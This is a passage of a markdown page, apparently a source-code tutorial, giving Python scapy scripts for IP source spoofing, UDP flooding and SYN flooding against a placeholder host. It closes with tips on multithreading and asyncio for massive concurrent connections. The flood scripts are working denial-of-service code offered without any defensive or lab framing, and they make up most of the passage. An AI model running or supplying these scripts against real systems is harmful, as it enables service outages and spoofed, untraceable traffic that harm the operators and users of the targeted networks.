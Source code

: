 #### Packet Crafting & IP Spoofing
Using scapy to send spoofed packets:
```python
from scapy.all import *

packet = IP(src="192.168.1.1", dst="example.com")/ICMP()
send(packet)
```

#### UDP & SYN Flooding Techniques
*UDP Flooding Example:*
```python
from scapy.all import *
import time

def udp_flood(target, port, duration):
    end_time = time.time() + duration
    while time.time() < end_time:
        packet = IP(dst=target)/UDP(dport=port)/Raw(load="X"*1024)
        send(packet, verbose=0)

target = 'example.com'
port = 12345
duration = 10

udp_flood(target, port, duration)
```
*SYN Flooding Example:*
```python
from scapy.all import *
import time

def syn_flood(target, port, duration):
    end_time = time.time() + duration
    while time.time() < end_time:
        packet = IP(dst=target)/TCP(dport=port, flags="S")
        send(packet, verbose=0)

target = 'example.com'
port = 80
duration = 10

syn_flood(target, port, duration)
```

### Concurrency: Multithreading and Asyncio
For massive concurrent connections, consider:
- **Multithreading:**  
  Straightforward for I/O-bound tasks.
- **Asyncio:**  
  Efficient for handling thousands of concurrent connections using async/await.
  